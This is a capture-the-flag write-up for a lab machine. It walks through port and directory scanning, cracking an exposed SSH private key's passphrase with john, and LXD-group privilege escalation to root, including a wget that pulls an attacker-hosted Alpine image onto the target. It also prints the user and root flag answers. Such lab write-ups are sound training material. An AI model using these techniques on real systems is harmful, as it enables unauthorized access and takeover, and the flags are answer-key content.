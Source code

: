```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1 Boot2Root
### What is the user flag?
Let's begin by performing an `nmap` scan against the target.
```
$ nmap -sC -sV 10.10.223.2
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-16 09:38 IST
Nmap scan report for 10.10.223.2
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.40 seconds
```
There are two open ports:

| Port | Service |
| :-: | :-: |
| 22   | ssh     |
| 80   | http    |

Let's visit the website through the browser.

![2](https://github.com/Knign/Write-ups/assets/110326359/7595fb56-6c5a-4462-959a-4b9bdda22924)

There's really nothing of importance here.

Using `CTRL+U` we can view the source page.

![3](https://github.com/Knign/Write-ups/assets/110326359/9d7c738e-1f18-4b71-8bf5-9a3914f1c58b)

So we know that there is a user called `john`.

We can use `gobuster` to find other web pages that might be useful.
```
$ gobuster dir -u http://10.10.223.2 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.223.2/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.223.2/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The `/secret` page seems interesting, let's go there.

![4](https://github.com/Knign/Write-ups/assets/110326359/5337a972-eaeb-4559-bcf1-f580570b881c)

Let's get the `secretKey`.

![5](https://github.com/Knign/Write-ups/assets/110326359/0cf52dc6-98b2-4a7c-9d88-559dca31c30f)

It seems to be the private key of the `john` user we saw before.
We can use `ssh2john` to create a hash file.
```
$ ssh2john secretKey > secretKey_hash 
```
Now we can use `john` to crack the hashes.
```
$ john secretKey_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2023-12-16 10:01) 4.347g/s 2295p/s 2295c/s 2295C/s stupid..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Let's change the permissions of the `secretKey`.
```
$ chmod 600 secretKey
$ ls -l
total 8
-rw------- 1 kunal kunal 1766 Dec 16 10:03 secretKey
-rw-r--r-- 1 kunal kunal 2461 Dec 16 10:00 secretKey_hash
```
Now we are all set to login through SSH as the `john` user.
```
$ ssh -i secretKey john@10.10.223.2
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 04:34:22 UTC 2023

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.223.2
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
We can now read the user flag.
```
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
### Answer
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

&nbsp;

### What is the root flag?
Let's check what groups `john` is a part of.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
On searching for a while we can find the following article that explains how to escalate the root privilege by exploiting the features of LXD.

#### Commands to be run on the attacker machine:
```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo ./build-alpine
$ python3 -m http.server
```

#### Commands to be run on the target machine:
```
john@exploitable:/tmp$ wget http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
--2023-12-16 05:12:53--  http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3646460 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’

alpine-v3.19-x86_64-20231216_1041.tar.gz                   100%[========================================================================================================================================>]   3.48M   490KB/s    in 8.7s    

2023-12-16 05:13:02 (410 KB/s) - ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’ saved [3646460/3646460]

john@exploitable:/tmp$ lxc image import alpine-v3.19-x86_64-20231216_1041.tar.gz --alias myimage
Image imported with fingerprint: 8d217b63453d877763142d3cfdf5bb25ad94c2ef132da82eab9c314fc5f74741
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 8d217b63453d | no     | alpine v3.19 (20231216_10:41) | x86_64 | 3.48MB | Dec 16, 2023 at 5:16am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```
We can now locate the `root.txt` file using the `find` command.
```
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```
Let's get the root flag.
```
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
### Answer
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
